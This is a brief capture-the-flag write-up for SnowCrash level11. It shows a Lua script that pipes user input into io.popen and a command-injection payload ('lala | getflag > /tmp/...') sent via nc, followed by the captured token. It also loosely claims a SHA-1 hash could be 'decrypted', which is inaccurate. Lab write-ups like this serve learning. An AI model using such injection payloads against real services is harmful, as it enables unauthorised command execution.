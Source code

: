 # level11

This one was way easier compared to the last one, we get a .lua file that we copy locally for analyzing and testing it.
After a little bit of time, we saw that:

```
prog = io.popen("echo "..pass.." | sha1sum", "r")
data = prog:read("*all")
```

Was probably the place for exploits. Using user input without sanitizing is always really risky. 
We then tried to inject some commands.

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: lala | getflag > /tmp/lala.txt
```

There is probably another way of solving this code since .lua code also got the hash of the password stored in the code clearly, using a shasum1 method of hashing, so there is probably a way of decrypting it.

```
/*********************************************************\

level11@SnowCrash:~$ cat /tmp/lala.txt 
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

\*********************************************************/
```